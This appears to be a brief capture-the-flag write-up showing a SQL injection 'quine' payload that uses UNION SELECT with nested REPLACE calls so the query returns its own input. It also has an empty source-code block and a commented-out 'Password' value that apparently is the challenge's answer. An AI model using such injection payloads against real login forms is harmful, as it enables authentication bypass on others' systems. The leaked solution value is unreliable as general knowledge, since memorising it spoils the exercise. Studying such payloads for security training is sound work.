

This is the ouroboros, it can be generated using this source code:
```python

```

This is the input we gives, `$$` will contain all the quine:
```sql
' UNION Select $$ -- -
```

```sql
' UNION Select REPLACE(REPLACE('" UNION Select REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") -- -',CHAR(34),CHAR(39)),CHAR(36),'" UNION Select REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") -- -') -- -
```



<!-- **Password:** ***`admin_secure_email@rubiya.kr`***  -->
